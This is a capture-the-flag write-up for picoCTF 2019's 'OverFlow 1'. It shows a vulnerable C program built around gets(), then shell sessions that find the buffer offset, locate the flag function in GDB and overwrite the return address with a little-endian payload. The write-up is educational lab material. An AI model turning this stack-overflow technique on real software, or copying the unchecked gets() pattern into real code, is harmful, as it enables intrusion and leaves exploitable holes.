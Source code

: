 # PicoCTF19 OverFlow 1

## Challenge

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln)? You can find it in /problems/overflow-1 on the shell server. [Source](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln.c).

## Hints

Take control that return address

Make sure your address is in Little Endian.

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/overflow-1$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 21:51 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-1_3    42 Sep 28 21:51 flag.txt
-rwxr-sr-x   1 hacksports overflow-1_3  7532 Sep 28 21:51 vuln
-rw-rw-r--   1 hacksports hacksports     742 Sep 28 21:51 vuln.c
```

Let's view `vuln.c`

```
samson@pico-2019-shell1:/problems/overflow-1$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

As expected, there is a function that prints the flag but it's never explicitly called.

The program takes a string and attempts to jump to that address. But hey, since this is an overflow question let's just give the program a bunch of garbage and see what happens.

```bash
samson@pico-2019-shell1:/problems/overflow-1$ ./vuln
Give me a string and lets see what happens: 

Woah, were jumping to 0x8048705 !
samson@pico-2019-shell1:/problems/overflow-1$ ./vuln
Give me a string and lets see what happens: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Woah, were jumping to 0x41414141 !
Segmentation fault (core dumped)
```

Hmm: `0x41414141`. If you're familiar with the [ASCII Table](https://en.wikipedia.org/wiki/ASCII), `A` is `41` in hexadecimal.

So it looks like we overwrite some instructions with our input. Let's find the minimal amount of `A`'s required to change the jump address.

```bash
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*77") | ./vuln
Give me a string and lets see what happens:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Woah, were jumping to 0x8040041 !
Segmentation fault (core dumped)
```

Notice how with no input the value is `0x8048705` but with 77 `A`'s, it's `0x8040041`.

You can see the first `41` is at the end. This is due to `x86_64` working in little endian mode.

So basically this overflow seems like we might have to overwrite the address with the address of the flag and in order to do that we first need to figure out which memory address the flag function is located at and we can do that with GDB.

```bash
samson@pico-2019-shell1:/problems/overflow-1$ gdb ./vuln 
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
(gdb) q
```

There it is at memory address `0x80485e6`.

Let's try working that into the address:

```bash
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*77+'\xe6'")  | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x800e641 !
Segmentation fault (core dumped)
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*76+'\xe6'") | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80400e6 !
Segmentation fault (core dumped)
samson@pico-2019-shell1:/problems/overflow-1$ echo $(python -c "print 'A'*76+'\xe6\x85\x04\x08'") | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}Segmentation fault (core dumped)
```

## Flag

`picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}`